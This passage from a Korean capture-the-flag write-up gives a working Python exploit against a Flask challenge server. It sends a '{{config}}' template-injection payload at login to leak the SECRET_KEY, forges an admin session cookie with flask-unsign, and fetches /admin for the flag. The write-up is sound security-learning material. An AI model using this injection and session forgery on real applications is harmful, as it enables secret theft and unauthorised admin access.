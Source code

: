 `SECRET_KEY`를 사용하여 `admin` 계정의 JWT 토큰을 생성해주면, `/admin` 경로에 접근이 가능하여 플래그를 획득할 수 있습니다.               
     
<img src="./randomsecret/flag.jpg" width="700px"/>   
            
## Exploit Code     
```python
import requests 
import os

url = "http://3.36.132.18:4000"

s = requests.session() 
r = requests.post(
        f"{url}/login", 
        data={
            "username": "{{config}}",
            "password": "test"
        }
)
        
secret_key = r.text[r.text.find("SECRET_KEY") + 22: r.text.find("SECRET_KEY") + 82]

header = {"admin": True}
cmd = "flask-unsign --sign --cookie \"" + "{'admin': 'true'}" + f"\" --secret '{secret_key}'"
print(cmd)
jwt_encode = os.popen(cmd).read().split("\n")[0]
        
print("jwt:", jwt_encode)

r = requests.get(
    f"{url}/admin",
    cookies={"session":jwt_encode}
)

if "Hello" in r.text:
    print(r.text)
    exit()
```
       
## 후기

`jwt` 값을 생성하기 위해 `urlsafe_b64encode()`과 `SHA256` 해시 알고리즘을 사용하여 토큰을 생성하였는데 `Flask session`에 사용되는 토큰 인증 방식과 달라서 삽질을 많이 했습니다...
    
찾아보니 `flask-unsign` 모듈이 존재하여 이를 사용하니 해결할 수 있었습니다. 

새로운 지식을 얻을 수 있어서 좋았습니다.                 
          
------